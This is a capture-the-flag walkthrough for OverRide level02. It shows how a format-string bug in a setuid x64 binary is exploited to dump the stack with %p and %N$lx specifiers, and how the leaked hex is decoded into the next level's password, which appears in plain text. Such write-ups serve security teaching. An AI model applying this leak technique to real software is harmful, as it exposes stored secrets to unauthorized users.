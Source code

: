 # level02

By looking at the code and with `file` command, we can see that the program is for x64 architecture:

```bash
level02@OverRide:~$ file level02 
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

The program read the `.pass` file of the next level. When reading it, the program make checks that the length must be equal to 41.

To debug it in gdb, we extract the program to another machine to debug it. We create a file in `home/users/level03`.

```bash
┌──(vagrant㉿kali)-[~]
└─$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" > /home/users/level03/.pass
```

The first `fgets` will be printed as the only one argument of `printf` if the password read in the `.pass` and the password passed as input don't match.

We try to print the stack, by passing modifiers as first input and empty string as second one:

```bash
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p     
--[ Password: 
*****************************************
 0x7fff8c03a8d0 (nil) 0xffffffff 0x2a (nil) 0x7fff8c03aad8 0x100000000 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x8 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x41 0x2520702520702520 0x2070252070252070 0x7025207025207025 does not have access!
```

As we know what contains the `.pass` file, we can see that its content begins to pop at the 22th element until the 27th.

We can know try to pop up the content of the `.pass` file. We use `l` for print a long-sized integer as we are in x64 architecture, and `x` to print the result in hex:

```bash
--[ Username: %22$lx %23$lx %24$lx %25$lx %26$lx %27$lx
--[ Password: 
*****************************************
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d 0 does not have access!
```

We can now get the flag. We put it in file and reverse each 2 bytes:

```bash
level02@OverRide:~$ echo "756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d" > /tmp/test 
level02@OverRide:~$ dd conv=swab if=/tmp/test of=/tmp/result 2>/dev/null
level02@OverRide:~$ cat /tmp/result 
57e60525437386845414a4531637931573a7173475e4768553a45386e67485378433760566b493d4
```

We need then to reverse bytes order each 16 bytes and print the result as ASCII values:

```bash
level02@OverRide:~$ cat /tmp/result | fold -w 16 | rev | tr -d '\n' | xxd -r -p
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
